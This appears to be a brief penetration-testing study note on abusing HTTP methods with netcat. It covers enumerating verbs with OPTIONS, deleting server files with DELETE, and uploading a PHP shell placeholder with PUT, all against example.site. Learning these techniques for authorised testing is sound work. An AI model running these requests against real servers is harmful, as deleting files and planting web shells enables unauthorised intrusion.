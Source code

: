 
### General Notes

> Exploiting [[HTTP]] verbs.
> Check the resulting [[HTTP]] response to see effect of exploitation.
> Done using [[netcat]]
---

### Enumerate available verbs

> Using `netcat`, connect and then send a request using the `options` verb.
```
nc example.site 80
OPTIONS / HTTP/1.1
```
> Similar to the usage of `netcat` in [[Web Application Fingerprinting]].

---

### Exploit `DELETE`

> Using `netcat`, connect and then send a request using the `delete` verb, with the path to the file specified.
```
nc example.site 80
DELETE /path/to/resource.php HTTP/1.1
```
> Similar to the usage of `netcat` in [[Web Application Fingerprinting]].

---

### Exploit `PUT`

> Must know the size of the file to be uploaded. Use the `wc -m <filename>` to get size in bytes of the file.

> Using `netcat`, connect and then send a request using the `PUT` verb, with the path to the file specified.
```
nc example.site 80
PUT /payload.php HTTP/1.1
Content-type: text/html
Content-length: <size-in-bytes>

<?php shell-code ?>
```

---


